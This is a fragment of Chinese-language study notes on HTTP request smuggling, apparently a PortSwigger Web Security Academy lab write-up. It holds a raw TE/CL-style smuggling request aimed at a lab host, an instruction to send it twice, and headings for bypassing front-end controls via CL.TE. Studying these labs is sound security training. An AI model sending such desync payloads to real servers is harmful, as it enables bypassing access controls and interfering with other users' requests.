 ```
POST / HTTP/1.1
Host: 0a0e00f904118c0c80c7a31d005500f1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5e
POST /aaa HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

请求两次

![image-20240430140950021](images/7.png)

# 走私绕过

## 前端安全控制

### CL.TE

https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te
